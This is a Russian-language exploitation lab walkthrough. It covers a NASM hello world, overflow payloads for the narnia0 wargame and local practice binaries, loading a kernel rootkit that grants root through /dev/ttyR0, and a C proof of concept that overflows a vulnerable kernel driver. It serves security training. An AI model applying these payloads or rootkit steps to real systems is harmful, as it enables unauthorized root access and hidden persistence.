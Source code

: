 **Hello world на языке assembler:**  

Подготовка среды (для Kali):

$ sudo apt-get install nasm

Код:

SECTION .data  
msg db "Hello, world!",0xa  
len equ $ - msg  
SECTION .text  
global _start  
_start:  
	mov eax, 4  
	mov ebx, 1  
	mov ecx, msg  
	mov edx, len  
	int 0x80  
	mov eax, 1  
	mov ebx, 0  
	int 0x80

Сборка и запуск:

$ nasm -f elf -o hello.o hello.asm  
$ ld -m elf_i386 -o hello hello.o  
$ ./hello

**Простое переполнение буфера:**

    Так как переменная val находится в памяти над буфером, чтобы её перезаписать, необходимо просто заполнить буфер мусором и записать 4 байта (в little endian ) после него.

    Конструкция "&& cat" в команде используется для того, чтобы сначала записать в stdin программы вывод python, а потом работать с ним интерактивно из терминала.

    $ (python -c "print 'A'*20 + '\xef\xbe\xad\xde'" && cat) | /narnia/narnia0

**Перезапись указателя на функцию**:  

    Для перезаписи указателя на функцию необходимо сначала получить адрес функции shell в отладчике, а затем заполнить буфер мусором и записать после него этот адрес.

    Получение адреса:

    $ gdb ./func_overwrite

    pwndbg> p shell

    $1 = {<text variable, no debug info>} 0x804848b <shell> 

  Переполнение буфера:  

    $ (python2.7 -c "import struct; print('a'*128+struct.pack('<L', 0x804848b))" && cat) | ./func_overwrite  

   Целочисленное переполнение:

    $ (python2.7 -c 'import sys; sys.stdout.write("\x08"*4+"\xbc\xfa\xff\xbf"' && cat) | ./integer_bug

**Установка и использование rootkit-а в ядре Linux:  
**

    Более подробное описание: [https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)

    $ cd /cybered/kernel/getroot  
    $ make  
    $ sudo insmod ./root.ko  
    $ sudo chmod 0666 /dev/ttyR0

    Повышение прав доступа:

    $ echo "g0tR0ot" > /dev/ttyR0

**Эксплуатация уязвимости в ядре Linux:**  

Подготовка среды для работы с эксплойтом:

   $ mkdir /tmp/share  
   $ cd “/cybered/kernel/exploitation/buffer_overflow”

PoC-версия эксплойта:

#define _GNU_SOURCE    
#include <stdio.h>  
#include <stdlib.h>  
#include <fcntl.h>  
#include <unistd.h>  
int main()  
{  
    // Opening device  
    puts("[+] Opening device");  
    int fd = open("/dev/tostring", O_RDWR);  
    printf("[+] Writing data to device\n");  
    char * dummy = "aaaa";  
    // Overflowing buffer  
    for (int i = 0; i < 64; i++)  
    {  
        write(fd, dummy, 4);  
    }  
    unsigned int call_addr = 0xdeadbeef;  
    write(fd, &call_addr, 4);  
    // tostring_read == 0xdeadbeef  
    // Trigger read  
    read(fd, dummy, 4);  
}

Сборка:

    $ gcc -m32 -static poc.c -o poc  
    $ cp poc /tmp/share

Запуск VM и exploit:

    $ cd "/cybered/kernel/exploitation/buffer_overflow"  
    $ ./start_vm.sh